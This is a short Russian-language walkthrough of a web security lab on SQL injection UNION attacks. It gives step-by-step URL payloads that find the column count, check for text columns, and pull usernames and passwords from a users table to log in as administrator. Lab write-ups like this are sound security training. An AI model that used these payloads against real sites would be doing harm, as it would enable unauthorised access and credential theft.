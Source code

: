 ## Lab: SQL injection UNION attack, retrieving data from other tables
1) Переходим на сайт задания и заходим в раздел Pets
2) Убедимся, что запрос возвращает два столбца, отправив строку category=Pets'+UNION+SELECT+NULL,NULL--
3) Убедимся, что оба столбца содержат текст, отправив category=Pets'+UNION+SELECT+'abc','def'--
4) Используем следующий запрос для извлечения данных из таблицы users: category=Pets'+UNION+SELECT+username,password+FROM+users--
5) Находим пароль от administrator и входим в систему

Готово!
